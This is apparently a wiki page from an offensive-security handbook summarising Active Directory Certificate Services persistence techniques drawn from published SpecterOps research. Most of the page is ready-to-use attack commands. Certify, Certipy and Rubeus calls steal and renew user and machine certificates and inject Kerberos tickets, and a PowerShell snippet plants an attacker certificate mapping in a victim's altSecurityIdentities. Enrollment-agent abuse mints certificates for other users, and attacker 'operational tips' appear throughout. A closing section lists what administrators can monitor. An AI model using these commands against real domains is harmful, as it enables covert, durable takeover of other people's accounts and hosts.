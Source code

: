 # AD CS Account Persistence

**This is a small summary of the account persistence chapters of the awesome research from [https://specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)**

## Understanding Active User Credential Theft with Certificates – PERSIST1

In a scenario where a certificate that allows domain authentication can be requested by a user, an attacker has the opportunity to request and steal this certificate to maintain persistence on a network. By default, the `User` template in Active Directory allows such requests, though it may sometimes be disabled.

Using [Certify](https://github.com/GhostPack/Certify) or [Certipy](https://github.com/ly4k/Certipy), you can search for enabled templates that allow client authentication and then request one:

```bash
# Enumerate client-auth capable templates
Certify.exe find /clientauth

# Request a user cert from an Enterprise CA (current user context)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User

# Using Certipy (RPC/DCOM/WebEnrollment supported). Saves a PFX by default
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' -template 'User' -out user.pfx
```

A certificate’s power lies in its ability to authenticate as the user it belongs to, regardless of password changes, as long as the certificate remains valid.

You can convert PEM to PFX and use it to obtain a TGT:

```bash
# Convert PEM returned by Certify to PFX
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Use certificate for PKINIT and inject the TGT
Rubeus.exe asktgt /user:john /certificate:C:\Temp\cert.pfx /password:CertPass! /ptt

# Or with Certipy
certipy auth -pfx user.pfx -dc-ip 10.0.0.10
```

> Note: Combined with other techniques (see THEFT sections), certificate-based auth allows persistent access without touching LSASS and even from non-elevated contexts.

## Gaining Machine Persistence with Certificates - PERSIST2

If an attacker has elevated privileges on a host, they can enroll the compromised system’s machine account for a certificate using the default `Machine` template. Authenticating as the machine enables S4U2Self for local services and can provide durable host persistence:

```bash
# Request a machine certificate as SYSTEM
Certify.exe request /ca:dc.theshire.local/theshire-DC-CA /template:Machine /machine

# Authenticate as the machine using the issued PFX
Rubeus.exe asktgt /user:HOSTNAME$ /certificate:C:\Temp\host.pfx /password:Passw0rd! /ptt
```

## Extending Persistence Through Certificate Renewal - PERSIST3

Abusing the validity and renewal periods of certificate templates lets an attacker maintain long-term access. If you possess a previously issued certificate and its private key, you can renew it before expiration to obtain a fresh, long-lived credential without leaving additional request artifacts tied to the original principal.

```bash
# Renewal with Certipy (works with RPC/DCOM/WebEnrollment)
# Provide the existing PFX and target the same CA/template when possible
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
            -template 'User' -pfx user_old.pfx -renew -out user_renewed.pfx

# Native Windows renewal with certreq
# (use the serial/thumbprint of the cert to renew; reusekeys preserves the keypair)
certreq -enroll -user -cert <SerialOrID> renew [reusekeys]
```

> Operational tip: Track lifetimes on attacker-held PFX files and renew early. Renewal can also cause updated certificates to include the modern SID mapping extension, keeping them usable under stricter DC mapping rules (see next section).

## Planting Explicit Certificate Mappings (altSecurityIdentities) – PERSIST4

If you can write to a target account’s `altSecurityIdentities` attribute, you can explicitly map an attacker-controlled certificate to that account. This persists across password changes and, when using strong mapping formats, remains functional under modern DC enforcement.

High-level flow:

1. Obtain or issue a client-auth certificate you control (e.g., enroll `User` template as yourself).
2. Extract a strong identifier from the cert (Issuer+Serial, SKI, or SHA1-PublicKey).
3. Add an explicit mapping on the victim principal’s `altSecurityIdentities` using that identifier.
4. Authenticate with your certificate; the DC maps it to the victim via the explicit mapping.

Example (PowerShell) using a strong Issuer+Serial mapping:

```powershell
# Example values - reverse the issuer DN and serial as required by AD mapping format
$Issuer  = 'DC=corp,DC=local,CN=CORP-DC-CA'
$SerialR = '1200000000AC11000000002B' # reversed byte order of the serial
$Map     = "X509:<I>$Issuer<SR>$SerialR"

# Add mapping to victim. Requires rights to write altSecurityIdentities on the object
Set-ADUser -Identity 'victim' -Add @{altSecurityIdentities=$Map}
```

Then authenticate with your PFX. Certipy will obtain a TGT directly:

```bash
certipy auth -pfx attacker_user.pfx -dc-ip 10.0.0.10
```

Notes
- Use strong mapping types only: X509IssuerSerialNumber, X509SKI, or X509SHA1PublicKey. Weak formats (Subject/Issuer, Subject-only, RFC822 email) are deprecated and can be blocked by DC policy.
- The cert chain must build to a root trusted by the DC. Enterprise CAs in NTAuth are typically trusted; some environments also trust public CAs.

For more on weak explicit mappings and attack paths, see:

[[domain-escalation.md]]

## Enrollment Agent as Persistence – PERSIST5

If you obtain a valid Certificate Request Agent/Enrollment Agent certificate, you can mint new logon-capable certificates on behalf of users at will and keep the agent PFX offline as a persistence token. Abuse workflow:

```bash
# Request an Enrollment Agent cert (requires template rights)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:"Certificate Request Agent"

# Mint a user cert on behalf of another principal using the agent PFX
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User \
                   /onbehalfof:CORP\\victim /enrollcert:C:\Temp\agent.pfx /enrollcertpw:AgentPfxPass

# Or with Certipy
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
           -template 'User' -on-behalf-of 'CORP/victim' -pfx agent.pfx -out victim_onbo.pfx
```

Revocation of the agent certificate or template permissions is required to evict this persistence.

## 2025 Strong Certificate Mapping Enforcement: Impact on Persistence

Microsoft KB5014754 introduced Strong Certificate Mapping Enforcement on domain controllers. Since February 11, 2025, DCs default to Full Enforcement, rejecting weak/ambiguous mappings. Practical implications:

- Pre-2022 certificates that lack the SID mapping extension may fail implicit mapping when DCs are in Full Enforcement. Attackers can maintain access by either renewing certificates through AD CS (to obtain the SID extension) or by planting a strong explicit mapping in `altSecurityIdentities` (PERSIST4).
- Explicit mappings using strong formats (Issuer+Serial, SKI, SHA1-PublicKey) continue to work. Weak formats (Issuer/Subject, Subject-only, RFC822) can be blocked and should be avoided for persistence.

Administrators should monitor and alert on:
- Changes to `altSecurityIdentities` and issuance/renewals of Enrollment Agent and User certificates.
- CA issuance logs for on-behalf-of requests and unusual renewal patterns.

## References

- Microsoft. KB5014754: Certificate-based authentication changes on Windows domain controllers (enforcement timeline and strong mappings).
  https://support.microsoft.com/en-au/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16
- Certipy Wiki – Command Reference (`req -renew`, `auth`, `shadow`).
  https://github.com/ly4k/Certipy/wiki/08-%E2%80%90-Command-Reference

